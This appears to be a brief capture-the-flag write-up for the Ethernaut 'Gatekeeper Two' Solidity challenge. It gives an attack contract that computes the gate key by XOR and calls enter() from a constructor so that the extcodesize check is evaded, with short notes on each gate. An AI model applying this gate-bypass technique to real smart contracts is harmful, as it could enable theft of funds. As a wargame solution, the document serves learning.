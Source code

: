 ```javascript
contract GatekeeperTwoAttack {
    constructor (address addr) public {
        bytes8 gate_key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1));
        (bool success, ) = addr.call(abi.encodeWithSignature("enter(bytes8)", gate_key));
        require(success);
    }
}
```

Gate 1 is just a simple `tx.origin` trick.
Gate 2 requires us to put the attack in the constructor so that `extcodesize(caller()) == 0`.
Gate 3 just requires us to calculate the key, which can be done by the inverse property of the XOR operator.